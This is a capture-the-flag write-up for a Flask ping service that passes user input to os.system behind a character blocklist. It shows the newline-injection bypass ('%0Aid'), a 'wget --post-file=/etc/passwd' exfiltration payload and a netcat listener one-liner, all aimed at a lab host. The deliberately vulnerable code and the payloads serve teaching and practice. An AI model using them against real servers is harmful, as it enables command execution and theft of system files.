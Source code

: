 ```yaml
---
title: "TakitoChall CYBEX [ WEB ]"
date: 2022-02-27T18:35:38-05:00
draft: false
---
```


## __Introduction__

The objective of this challenge is to get an RCE, specifically to get the output of the `cat /etc/passwd` command.

```python
from flask import Flask
from flask import request
from os import system

app = Flask(__name__)

@app.route('/')
def rce():
    ip = request.args.get('ip')

    if ip is None:
        return 'Please use ?ip=127.0.0.1'

    for char in '&;|$()`':
        if char in ip:
            return 'Character {} is blocked'.format(char)

    system('ping -c 1 '+ip)
    return 'Ping sent'

if __name__ == '__main__':
    app.run()
```

Before starting the analysis we can notice at a glance that a ping is performed to the address we set in the `ip` parameter.

## __First sight__

When analyzing the code we notice that in line 14 we have several banned characters such as `&;|$()` and `. This is logical since command injection payloads usually carry these characters, as we can see in the following [link](https://github.com/payloadbox/command-injection-payload-list).

Another option we could try would be to convert them to another format such as base64, unicode, hexadecimal and various conversions that would help us achieve what we are looking for.

## __Exploitation__

In this case we are dealing with a CRLF injection. If you want to know more about this type of web vulnerability you can do so by clicking on the following [link](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) which will redirect you to the official HackTricks website which has a very good review about this bug.

Once we know what we are dealing with, we can now crack the following code by typing in the `ip=` parameter the following payload:

```
%0Aid
```

![image](https://user-images.githubusercontent.com/88755387/154855417-06bf8edb-aff1-407d-8ded-8e92254209a0.png)

![image](https://user-images.githubusercontent.com/88755387/154855372-70dc930a-1785-4137-99f7-ccaaa5774058.png)

As we can see we have taken the output in the log which would be on the server side but what we are looking for is to print the output on the screen so that the client can view it.

With the following command and raising the port 443 we can get the output to our machine:

```
%0Awget --post-file=/etc/passwd 127.0.0.1:443
```

![image](https://user-images.githubusercontent.com/88755387/154859783-dcaae268-dd39-4616-afbc-63b40e775a54.png)

One line payload:

```
nc -lvp 443 & curl 127.0.0.1:5000/?ip=%0Awget%20--post-file=/etc/passwd%20127.0.0.1:443
```